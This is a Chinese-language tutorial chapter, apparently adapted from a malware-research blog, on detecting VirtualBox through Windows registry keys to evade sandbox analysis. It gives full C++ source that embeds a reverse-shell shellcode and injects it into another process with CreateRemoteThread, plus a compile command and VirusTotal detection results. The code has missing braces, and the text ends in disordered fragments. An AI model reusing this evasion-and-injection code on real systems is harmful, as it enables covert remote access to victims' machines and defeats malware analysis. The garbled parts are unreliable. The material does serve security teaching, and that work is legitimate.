







\newpage
\subsection{AV/VM 引擎规避技术（第 6 部分）：简单的 C++ 示例}

这一节是我自我研究另一个 VM 规避技巧的结果，一个如何在简单的 C++ 恶意软件中通过 Windows 注册表绕过 Oracle VirtualBox 的示例。

{width="80%"}

### 注册表项

注册表项及其值可以通过 WinAPI 调用来查询。

在这篇文章中，我考虑如何通过 `kernel32.dll` 中的函数（如 `RegOpenKeyExA` 和 `RegQueryValueExA`）来检测 VM 环境。

函数 `RegOpenKeyExA` 的语法如下：

```cpp
LSTATUS RegOpenKeyExA(
  [in]  HKEY  hKey,
  [in, optional] LPCSTR lpSubKey,
  [in]  DWORD  ulOptions,
  [in]  REGSAM samDesired,
  [out]  PHKEY  phkResult
);
```

它打开指定的注册表项。

另一个函数 `RegQueryValueExA` 获取与已打开注册表项关联的指定值名的类型和数据：

```cpp
LSTATUS RegQueryValueExA(
  [in]  HKEY  hKey,
  [in, optional]  LPCSTR  lpValueName,
  LPDWORD lpReserved,
  [out, optional]  LPDWORD lpType,
  [out, optional]  LPBYTE  lpData,
  [in, out, optional] LPDWORD lpcbData
);
```

#### 1. 检查指定的注册表路径是否存在

如你所见，我只是检查注册表项路径是否存在。

```cpp
int reg_key_ex(HKEY hKeyRoot, char* lpSubKey) {
  HKEY hKey = nullptr;
  LONG ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, 
  KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
  RegCloseKey(hKey);
  return TRUE;
  }
  return FALSE;

```

存在则返回 TRUE，否则返回 FALSE。

#### 2. 检查指定的注册表项是否包含某个值

这个函数的逻辑同样相当简单。

```cpp
int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* 
regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, 
  &hKey);
  if (ret == ERROR_SUCCESS) {
  RegQueryValueExA(hKey, regVal, NULL, NULL, 
  (LPBYTE)value, &size);
  if (ret == ERROR_SUCCESS) {
  if (strcmp(value, compare) == 0) {
  return TRUE;
  }
  }
  }
  return FALSE;

```

我们通过 `RegQueryValueExA` 检查注册表项的值，而 `RegOpenKeyExA` 函数的结果就是它的第一个形参。

我只考虑 Oracle VirtualBox。对于其他 VM/沙箱，技巧是一样的。

### 实战示例

我们来考虑实战示例。我们来看完整的源代码：

```cpp
/*
* hack.cpp
* classic payload injection with 
VM virtualbox evasion tricks
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2022/04/09/malware-av-evasion-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int reg_key_ex(HKEY hKeyRoot, char* lpSubKey) {
  HKEY hKey = nullptr;
  LONG ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, 
  KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
  RegCloseKey(hKey);
  return TRUE;
  }
  return FALSE;

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, 
  &hKey);
  if (ret == ERROR_SUCCESS) {
  RegQueryValueExA(hKey, regVal, NULL, NULL, 
  (LPBYTE)value, &size);
  if (ret == ERROR_SUCCESS) {
  if (strcmp(value, compare) == 0) {
  return TRUE;
  }
  }
  }
  return FALSE;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  if (reg_key_ex(HKEY_LOCAL_MACHINE, 
  "HARDWARE\\ACPI\\FADT\\VBOX__")) {
  printf("VirtualBox VM reg path value detected :(\n");
  return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, 
  "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
  "SystemProductName", "VirtualBox")) {
  printf("VirtualBox VM reg key value detected :(\n");
  return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, 
  "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
  "BiosVersion", "VirtualBox")) {
  printf("VirtualBox VM BIOS version detected :(\n");
  return -2;
  }

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;

```

如你所见，这只是经典的载荷注入，加上一些通过 Windows 注册表实现的 VM VirtualBox 检测技巧。

`HKLM\HARDWARE\ACPI\FADT\VBOX_`

{width="80%"}

枚举注册表项 `SystemProductName`，并与 `VirtualBox` 字符串比较。

{width="80%"}

以及同一路径下的 BIOS 版本项 `BiosVersion`：

{width="80%"}

请注意，在所有情况下项名都是大小写不敏感的。

### 演示

我们来编译这个恶意软件 `hack.cpp`：

```bash
i686-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后运行（我的例子是 Windows 10 x64）：

{width="80%"}

我们把它上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/e4d265297f08a5769d2f61aafb3040779c5f31f699e66ad259e66d62f1bacb03/detection>

所以 68 个 AV 引擎中有 8 个把我们的文件检测为恶意。

如果我们深入调查真实的恶意软件和场景，当然会发现许多其他指定的注册表路径和项。

我希望这一节能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[evasion techniques by check point software technologies ltd](https://evasions.checkpoint.com/techniques/registry.html)  
[classic payload injection](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html)  
[AV engines evasion part 1](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html)  
[AV engines evasion part 2](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html)  
[AV engines evasion part 3](https://cocomelonc.github.io/tutorial/2021/12/25/simple-malware-av-evasion-3.html)  
[AV engines evasion part 4](https://cocomelonc.github.io/tutorial/2021/03/18/simple-malware-av-evasion-4.html)  
[AV engines evasion part 5](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html)  
[source code in github](https://github.com/cocomelonc/2022-04-09-malware-av-evasion-6)

为此我可以使用如下的逻辑：

例如像这样的一段逻辑：

检查路径：

它所在的路径是：

`HKLM\SYSTEM\CurrentControlSet\Control\SystemInformation`
